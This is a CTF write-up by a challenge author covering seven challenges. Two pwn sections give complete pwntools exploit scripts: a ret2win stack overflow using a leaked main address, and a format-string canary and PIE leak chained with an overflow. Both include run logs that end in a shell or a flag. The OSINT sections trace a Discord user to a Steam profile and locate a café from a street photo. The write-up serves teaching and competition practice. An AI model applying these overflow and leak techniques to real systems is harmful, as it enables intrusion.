


## Challenges I made

- [Christmas PIE - Pwn](#christmas-pie)
- [Santa's Little Pwner - Pwn](#santas-little-pwner)
- [Flight 501 - Misc](#flight-501)
- [Skinwalker - Misc](#skinwalker)
- [Skipping Spot - Osint](#skipping-spot)
- [Unexpected Message - Osint](#unexpected-message)
- [Polar Note - Crypto](#polar-note)

---

<a id="christmas-pie"></a>

## Christmas PIE

Category: Pwn — Difficulty: Easy

We’re given a short description and a binary:

```text
Hope you like PIEs
```

---

### 1) First impression

Running the program locally:

```bash
hara@hara:~/Downloads$ ./christmas_pie
Welcome to christmas PIE!
Here's a little gift for you, the address of main: 0x64806b0bc2cf
What would you like for Christmas?
Tell Santa your wish: test
Merry Christmas!
```

We get:
- A **leaked address of `main`**
- One input prompt (`Tell Santa your wish:`)

---

### 2) Protections + interesting functions

Checking security mitigations:

```bash
pwndbg> checksec
File:     /home/hara/Downloads/christmas_pie
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```

So:
- **No canary** → stack overflow is likely viable  
- **NX enabled** → we won’t inject shellcode  
- **PIE enabled** → absolute addresses change, but we have a `main` leak  

Listing functions shows a `win()` function:

```bash
pwndbg> info functions
All defined functions:

Non-debugging symbols:
...
0x00000000000011fa  win
0x0000000000001258  vuln
0x00000000000012cf  main
...
```

Disassembling `win()`:

```bash
pwndbg> disassemble win
Dump of assembler code for function win:
   0x00000000000011fa <+0>:     push   rbp
   ...
   0x000000000000123a <+64>:    call   0x1060 <execve@plt>
   ...
```

Decompiled view (simplified):

```c
void win(void) {
    puts("Ho Ho Ho! You found the win function!");
    char *argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
    perror("execve");
    exit(1);
}
```

So if we can redirect execution to `win()`, we get a shell.

---

### 3) Vulnerability: stack overflow in `vuln()`

`vuln()` reads **0x100 bytes** into a much smaller stack buffer:

Decompiled (simplified):

```c
void vuln(void)
{
    void *buf;
    ssize_t n;

    puts("What would you like for Christmas?");
    printf("Tell Santa your wish: ");
    n = read(0, &buf, 0x100);
    if (n < 1) {
        puts("Santa didn't hear anything :(");
        exit(1);
    }
    puts("Merry Christmas!");
}

int main(void)
{
    setup();
    puts("Welcome to christmas PIE!");
    printf("Here's a little gift for you, the address of main: %p\n", main);
    vuln();
    return 0;
}
```


```bash
pwndbg> disassemble vuln
Dump of assembler code for function vuln:
   ...
   0x000000000000125c <+4>:     sub    rsp,0x50
   ...
   0x0000000000001283 <+43>:    lea    rax,[rbp-0x50]
   0x0000000000001287 <+47>:    mov    edx,0x100
   0x0000000000001294 <+60>:    call   0x1050 <read@plt>
   ...
   0x00000000000012ce <+118>:   ret
```

The stack frame allocates `0x50` bytes, meaning the saved return pointer is reachable with:

- buffer: `0x50` bytes  
- saved RBP: `0x8` bytes  
- **total offset to RIP: `0x58` = 88 bytes**  

So the exploit is a classic **ret2win**:
1. Use the leaked `main` address to compute the runtime address of `win()`
2. Overflow `vuln()` and overwrite RIP with `win()`

---

### 4) Exploit: compute `win` from leaked `main`

Because PIE shifts all code by the same base, the relative distance between `main` and `win` is constant:

```text
win_addr = leaked_main + (win_offset - main_offset)
```

#### solve.py

```py
from pwn import *

binary = "./christmas_pie"
elf = ELF(binary)
context.binary = binary

OFFSET = 88

p = connect("localhost", 1337)
#p = process(binary)

p.recvuntil(b"address of main: ")
leaked_main = int(p.recvline().strip(), 16)
log.info(f"Leaked main: {hex(leaked_main)}")

win_offset  = elf.symbols["win"]
main_offset = elf.symbols["main"]

win_addr = leaked_main + (win_offset - main_offset)
log.info(f"Calculated win address: {hex(win_addr)}")

payload  = b"A" * OFFSET
payload += p64(win_addr)

p.sendafter(b"wish: ", payload)
p.interactive()
```

---

### 5) Running the exploit

```bash
hara@hara:~/Downloads$ python3 solve.py
[*] '/home/hara/Downloads/christmas_pie'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[+] Opening connection to localhost on port 1337: Done
[*] Leaked main: 0x5798b210c2cf
[*] Calculated win address: 0x5798b210c1fa
[*] Switching to interactive mode
Merry Christmas!
Ho Ho Ho! You found the win function!
/bin/sh: can't access tty; job control turned off
/app $ ls
chall  flag.txt
/app $ cat flag.txt
CTF{CHR1STM4S_P13_G1V3S_Y0U_SH3LL}
```

---

### Flag

```text
CTF{CHR1STM4S_P13_G1V3S_Y0U_SH3LL}
```

---

<a id="santas-little-pwner"></a>

## Santa's Little Pwner

Category: Pwn — Difficulty: Medium

We’re given a short description and a binary:

```text
Name your elves wisely
```

---

### 1) First impression

```bash
hara@hara:~/Downloads$ ./santas_little_pwner
Welcome to Santa's Little Pwner!
You just got gifted with two mischievous elves, what will you name them?

The first one slides in on a candy-cane rail, radiating chaotic festive energy.
Enter your elf's name: elf
elf, what a festive name!

The second one prances around, leaving a trail of segfault-coloured sparkles.
Enter your elf's name: elf
That name is too powerful to be spoken aloud in Santa's workshop!
```

We only get two inputs, so we need to:
- leak what we need on input
- exploit on input

---

### 2) Protections + `win()`

```bash
pwndbg> checksec
File:     /home/hara/Downloads/santas_little_pwner
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```

So:
- **Canary** is present → we must leak it
- **PIE** is enabled → we must leak a code pointer to reach `win()`
- **NX** enabled → ret2win / ROP, not shellcode injection

There is a `win()` function:

```bash
pwndbg> info functions
...
0x00000000000011c9  name_elf
0x00000000000012ca  main
0x00000000000013b5  win
...
```

`win()` reads `flag.txt` and prints it (simplified):

```c
int win(void) {
    FILE *f = fopen("flag.txt", "r");
    if (!f) { perror("Error opening flag file"); return 1; }
    char buf[0x80];
    if (!fgets(buf, sizeof(buf), f)) perror("Error reading flag");
    else printf("Ho Ho Ho! Flag: %s\n", buf);
    fclose(f);
    return 0;
}
```

Goal: jump to `win()`.

---

### 3) Root cause: `name_elf()` has **both** bugs

Disassembling `name_elf` shows two important lines:

- it reads **0x80 bytes** with `fgets`
- into a buffer at **[rbp-0x50]** (only 0x50 bytes)

```bash
pwndbg> disassemble name_elf
...
0x00000000000011cd <+4>:     sub    rsp,0x70
...
0x00000000000011fe <+53>:    lea    rax,[rbp-0x50]
0x0000000000001202 <+57>:    mov    esi,0x80
0x000000000000120a <+65>:    call   0x1080 <fgets@plt>
...
0x000000000000127c <+179>:   call   0x1070 <printf@plt>
...
```

#### Decompiled view (simplified)

```c
void name_elf(int which) {
    char name[0x50];              // lives at [rbp-0x50]
    fgets(name, 0x80, stdin);     // BUG #1: overflow (0x80 > 0x50)

    if (which == 0) {
        printf(name);             // BUG #2: format string
        puts(", what a festive name!");
    } else if (which == 1) {
        puts("That name is too powerful to be spoken aloud in Santa's workshop!");
    }
}
```

So the game plan is:
- **first call** (`which==0`): use `printf(name)` to leak stuff
- **second call** (`which==1`): use the overflow to smash RIP

---

### 4) Leak stage: canary + PIE pointer with format string

Because the first call does `printf(name)`, we can dump stack words with `%p`.

Example leak:

```bash
hara@hara:~/Downloads$ nc localhost 1337
...
Enter your elf's name: %19$p-%27$p
0x18c034db93ebee00-0x5700ae1ab2ca, what a festive name!
...
```

In this instance:
- `%19$p` → stack canary
- `%27$p` → a PIE address in/near `main` (good enough to recover the PIE base)

---

### 5) How the overflow offset is 72 bytes

The overflow happens inside `name_elf()`.

From the disassembly we know:
- buffer starts at `[rbp-0x50]`
- canary is stored at `[rbp-0x8]`

So the distance from the start of the buffer to the canary is:

```text
0x50 - 0x8 = 0x48 bytes = 72 bytes
```

That’s why the exploit uses:

- `b"A" * 72` to reach the canary
- then the leaked canary
- then 8 bytes for saved RBP
- then the return address (to `win()`)

Payload layout:

```text
[ padding (72) ]
[ canary (8)   ]
[ saved rbp (8)]
[ RIP → win()  ]
```

---

### 6) Exploit stage: return into `win()` (PIE-aware)

We compute the PIE base from the leaked `main` pointer:

```text
elf.address = main_leak - elf.symbols['main']
win_addr = elf.address + elf.symbols['win']
```

Then we send the overflow payload on the second prompt.

#### solve.py

```py
from pwn import *

p = connect('localhost', 1337)
#p = process('./santas_little_pwner')
elf = ELF('./santas_little_pwner')

# Leak canary and main address
p.recvuntil(b"Enter your elf's name: ")
p.sendline(b'%19$p-%27$p')

# Better leak parsing
response = p.recvuntil(b'festive name!')
leaks = response.split(b',')[0].strip()
canary_str, main_str = leaks.split(b'-')

canary = int(canary_str, 16)
main_leak = int(main_str, 16)

# Calculate base address
elf.address = main_leak - elf.symbols['main']
log.success(f"Canary: {hex(canary)}")
log.success(f"Win: {hex(elf.symbols.win)}")

p.recvuntil(b"Enter your elf's name: ")

payload = b'A' * 72 
payload += p64(canary) 
payload += b'B' * 8 
payload += p64(elf.symbols.win)

p.sendline(payload)
p.interactive()
```

---

### 7) Running the exploit

```bash
hara@hara:~/Downloads$ python3 solve.py
[+] Opening connection to localhost on port 1337: Done
[*] '/home/hara/Downloads/santas_little_pwner'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[+] Canary: 0x1d929608f6988100
[+] PIE base: 0x58aa47e3d000
[+] Win: 0x58aa47e3e3b5
[*] Switching to interactive mode
That name is too powerful to be spoken aloud in Santa's workshop!
Ho Ho Ho! Flag: CTF{wh0_15_4_g00d_b0y_pwn3r}
```

---

### Flag

```text
CTF{wh0_15_4_g00d_b0y_pwn3r}
```

---

<a id="flight-501"></a>

## Flight 501

Category: Misc — Difficulty: Easy

We’re given a short story and a remote instance:

```text
It’s the mid-1990s at Europe’s spaceport in Kourou. Minutes after liftoff, the first Ariane 5 heavy-lift rocket veers off course and explodes.

Investigators suspect a software fault in the inertial navigation system, reused from the older Ariane 4. A mysterious "operand error" aborts the guidance computer just seconds into flight.

You’ve been given console access to a test rig running a stripped-down copy of the navigation software. Reproduce the in-flight malfunction and recover the diagnostic flag before the next launch window closes.
```

This challenge is clearly based on the [**Ariane 5 Flight 501**](https://en.wikipedia.org/wiki/Ariane_flight_V88) failure, where an **integer overflow issue** caused a runtime fault.

---

### 1) Trigger the operand error (overflow)

The program asks for an "alignment function value (long)", but it’s effectively constrained to a 16-bit signed integer internally. So any value **greater than 32767** will trigger the error.

Example run:

```bash
hara@hara:~/Downloads$ nc localhost 1337
=== Ariane 5 Guidance System Simulator ===
=== ESA Flight Computer Debug Interface ===

Enter horizontal bias (double): 400000000000
Enter alignment function value (long): 400000000000
Enter system status (hex): 400000000000

[LAUNCH] Preparing for liftoff...
[LAUNCH] T+00 seconds
[LAUNCH] Engines nominal, vehicle clearing the tower...

=== Flight Simulation Starting ===
[INFO] Initializing inertial reference system ✔
[INFO] Starting inertial reference system alignment...
[INFO] Horizontal bias: 400000000000.00
[INFO] Alignment function raw value: 400000000000
[ERROR] Alignment value out of 16-bit signed range!
[CRITICAL] Operand error in inertial reference system
[CRITICAL] Primary IRS shutdown
[CRITICAL] Backup IRS entered same failure mode
[FAILURE] Flight 501 destroyed at T+37s

[DIAG] Opening flag.txt...

CTF{m1ss10n_f41l3d_1n_37_53c0nd5}
```

---

### Flag

```text
CTF{m1ss10n_f41l3d_1n_37_53c0nd5}
```
---

<a id="skinwalker"></a>

## Skinwalker

Category: Misc — Difficulty: Medium

We’re given a short prompt and a Minecraft server:

```text
If I were hara, where would I put the flag?
Minecraft version 1.8.9
vianu_hack_ctf.aternos.me:16722
```

The wording is the whole hint: **"If I were hara…"** → connect to the server **as the username 'hara'**.

This challenge was designed to be solvable in two ways:
- **Manual**: join with a launcher (e.g., TLauncher) using the nickname 'hara'
- **Scripted**: connect programmatically (fair for players who don’t want to download a launcher)

---

### 1) Core idea (command block logic)

On the server, a **command block** checks the player name on join:

- If your username is exactly **'hara'**, it sends you a chat/system message containing the flag.
- If your username is anything else, it responds with **'try harder'**.

So the answer to "where would I put the flag?" is: **in the message only 'hara' receives after joining**.

---

### 2) Manual solve (launcher)

1. Open a Minecraft **1.8.9** launcher.
2. Set your nickname/username to:

   ```text
   hara
   ```

3. Join the server:

   ```text
   vianu_hack_ctf.aternos.me:16722
   ```

4. The server sends the flag in chat.

---

### 3) Scripted solve

I also made it solvable with a script using the Node.js 'minecraft-protocol' library.  
The script connects in **offline mode**, prints chat messages, and exits after a few seconds.

#### Setup

```bash
npm init -y
npm i minecraft-protocol
```

#### solve.js

```js
#!/usr/bin/env node
const mc = require('minecraft-protocol');

const host = 'vianu_hack_ctf.aternos.me';
const port = 16722;
const username = 'hara';
const version = '1.8.9';

const READ_MS = 5000;
const RECONNECT_MS = 150; // quick reconnects within the 5s window

const endAt = Date.now() + READ_MS;
let client = null;
let reconnectTimer = null;
let stopping = false;

function flattenChat(msg) {
  let obj = msg;
  if (typeof msg === 'string') {
    try { obj = JSON.parse(msg); } catch { return msg; }
  }
  if (!obj) return '';
  if (typeof obj === 'string') return obj;
  if (Array.isArray(obj)) return obj.map(flattenChat).join('');

  let out = '';
  if (obj.text) out += obj.text;
  if (obj.extra) out += obj.extra.map(flattenChat).join('');
  if (obj.with) out += obj.with.map(flattenChat).join('');
  if (!out && obj.translate) out = `[${obj.translate}]`;
  return out;
}

function stop() {
  if (stopping) return;
  stopping = true;

  if (reconnectTimer) clearTimeout(reconnectTimer);
  reconnectTimer = null;

  try { client?.end('done'); } catch {}
  process.exit(0);
}

function scheduleReconnect() {
  if (stopping) return;
  if (Date.now() >= endAt) return stop();
  if (reconnectTimer) return;

  reconnectTimer = setTimeout(() => {
    reconnectTimer = null;
    connect();
  }, RECONNECT_MS);
}

function connect() {
  if (stopping) return;
  if (Date.now() >= endAt) return stop();

  try { client?.end(); } catch {}
  client = mc.createClient({ host, port, username, version, auth: 'offline' });

  client.on('login', () => {
    console.log(`[+] Connected as ${username} (v=${version})`);
  });

  // 1.8.9 chat packet
  client.on('chat', (pkt) => {
    const raw = pkt?.message ?? '';
    const text = flattenChat(raw);
    if (text) console.log(`[CHAT] ${text}`);
    else if (raw) console.log(`[CHAT_RAW] ${raw}`);
  });

  // If proxy/plugins emit these
  client.on('playerChat', (d) => {
    const msg = d?.plainMessage ?? '';
    if (msg) console.log(`[CHAT] ${msg}`);
  });
  client.on('systemChat', (d) => {
    const raw = d?.formattedMessage ?? d?.content ?? '';
    const text = flattenChat(raw);
    if (text) console.log(`[SYS] ${text}`);
    else if (raw) console.log(`[SYS_RAW] ${raw}`);
  });

  client.on('error', (e) => {
    console.log('[error]', e?.message ?? e);
    scheduleReconnect();
  });

  client.on('end', (reason) => {
    console.log('[end]', reason);
    scheduleReconnect();
  });
}

// Hard stop after 5 seconds no matter what
setTimeout(stop, Math.max(0, endAt - Date.now()));

connect();
```

Run it:

```bash
hara@hara:~/Downloads$ node solve.js
[+] Connected as hara (v=1.8.9)
[CHAT] @CTF{0873fcfe31b3cb9206e90c2589c3652e38c19adfe0fda30893f34f960970ce59}
```

If you connect as the wrong user, you’ll only get the decoy message:

```bash
hara@hara:~/Downloads$ node solve.js
[+] Connected as hara1 (v=1.8.9)
[CHAT] @try harder
```

---

### Flag

```text
CTF{0873fcfe31b3cb9206e90c2589c3652e38c19adfe0fda30893f34f960970ce59}
```
---

<a id="skipping-spot"></a>

## Skipping Spot

Category: OSINT — Difficulty: Easy

We’re given a short story and a single photo:

```text
Whenever I skipped classes, I used to hide at a certain café — but now I can’t remember its name or even the street it was on. All I have left is a single photo of the street where the café is located, and a vague memory that it was somewhere near a police station. Help me identify the place.
```

### Photo (challenge)


---

### 1) Reverse image search → find the street

The fastest approach is a reverse image search (Google Lens / Google Images).

Using reverse image search on the street photo returns results pointing to:

- **Strada Mihai Eminescu, Brăila (Romania)**

That gives us both the **street name** and the **city**.

---

### 2) Use the “near a police station” hint

The description mentions the café was *near a police station*, so we can narrow down the exact segment of the street:

1. Open Google Maps and search:
   - `Strada Mihai Eminescu Brăila`
2. Then search nearby for:
   - `politie` / `police station`

Identify the police station closest to the matched viewpoint, then focus only on cafés within a short walking distance.

---

### 3) Identify the café

With the area narrowed down, we searched for cafés near the police station on Google Maps and identified Aroma Caffe as the closest match.

[Open in Google Maps](https://www.google.com/maps/place/Aroma+Caffe/@45.271227,27.9698179,18.25z/data=!4m9!1m2!2m1!1spolice+station!3m5!1s0x40b729e9ce52ea4d:0x914271e416c71be4!8m2!3d45.2716232!4d27.9711316!16s%2Fg%2F11hb23k7gr?entry=ttu&g_ep=EgoyMDI1MTIwMi4wIKXMDSoASAFQAw%3D%3D)

---

### Flag

```text
CTF{aroma}
```

---

<a id="unexpected-message"></a>

## Unexpected Message

Category: OSINT — Difficulty: Easy

We’re given a short prompt and a screenshot:

```text
see what this guy wants
```

### Photo (challenge)



---

### 1) Add the user on Discord

From the screenshot, the Discord username is:

- `ionelmesi1337`

I added the user on Discord and then checked the **Pending / profile** view. On their Discord profile, there is a **linked Steam account**.


---

### 2) Open the Steam profile

Click the Steam link from the Discord profile to open the Steam account.

---

### 3) Find the flag in Steam name history

The flag isn’t in the bio or recent activity — it’s in the **Steam Name History**.

Open the profile’s name history and the flag appears there.



---

### Flag

```text
CTF{5c4mm3r_m3375_4_81993r_f15h}
```

---

<a id="polar-note"></a>

## Polar Note

Category: Crypto — Difficulty: Entry Level

We’re given a short story and a ciphertext:

```text
The old North Pole butcher unexpectedly handed out a strange note.

It appears the message was encrypted using a six-letter key, of which only the first four are known: XMAS

To make things harder—and in case someone discovered the key—the butcher added his own unconventional processing style afterward, leaving the text in an unusual final form.

Ciphertext: IQSLLEBYESWDKPEJWQBFRWHOFR
```

---

### 1) Vigenère cipher (key: XMAS??)

Since the key is only partially known, we can use the "partial key" option in a [Vigenère decryptor](https://www.dcode.fr/vigenere-cipher).

Decrypting the ciphertext:

```text
IQSLLEBYESWDKPEJWQBFRWHOFR -> LESTIVEMEATUNDERTHETREEFIF
```

---

### 2) Louchebem ("butcher cipher")

The phrase *"the butcher added his own unconventional processing style afterward"* is the key hint: it points directly to [Louchebem](https://www.dcode.fr/louchebem-language) known as butcher cipher.

Decoding the Louchebem text gives the clean message:

```text
LESTIVEMEATUNDERTHETREEFIF -> FESTIVEMEATUNDERTHETREE
```

---

### Flag

```text
CTF{FESTIVEMEATUNDERTHETREE}
```

---
